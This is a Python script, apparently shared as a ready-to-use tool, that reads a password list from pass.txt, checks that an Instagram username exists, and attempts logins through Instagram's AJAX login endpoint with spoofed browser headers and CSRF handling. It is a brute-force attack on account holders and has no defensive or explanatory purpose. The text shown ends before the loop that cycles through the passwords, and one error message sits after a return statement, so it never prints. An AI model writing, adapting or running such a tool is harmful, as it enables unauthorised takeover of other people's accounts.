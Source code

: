 import requests
import json
import time
import os
filename = 'pass.txt'
if os.path.isfile(filename):
	with open(filename) as f:
	    passwords = f.read().splitlines()
	    if (len(passwords) > 0):
	    	print ('%s Passwords loads successfully' % len(passwords))
else:
	print ('Please create passwords file (pass.txt)')
	exit()
def userExists(username):
	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 
	if (r.status_code == 404):
		print ('User not found')
		return False
	elif (r.status_code == 200):
		followdata = json.loads(r.text)
		fUserID = followdata['user']['id']
		return {'username':username,'id':fUserID}
def Login(username,password):
	sess = requests.Session()
	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
	sess.headers.update({
		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
		'x-instagram-ajax':'1',
		'X-Requested-With': 'XMLHttpRequest',
		'origin': 'https://www.instagram.com',
		'ContentType' : 'application/x-www-form-urlencoded',
		'Connection': 'keep-alive',
		'Accept': '*/*',
		'Referer': 'https://www.instagram.com',
		'authority': 'www.instagram.com',
		'Host' : 'www.instagram.com',
		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',
		'Accept-Encoding' : 'gzip, deflate'
	})
	#first time -> to get csrftoken
	r = sess.get('https://www.instagram.com/') 
	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
	data = {'username':username, 'password':password}
	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)
	token = r.cookies.get_dict()['csrftoken']
	sess.headers.update({'X-CSRFToken' : token})
	#parse response
	data = json.loads(r.text)
	if (data['status'] == 'fail'):
		print (data['message'])
		return False
	
	if (data['authenticated'] == True):
		return sess #if we want to keep use session
	else:
		return False
		print ('Password incorrect [%s]' % password)
		return False

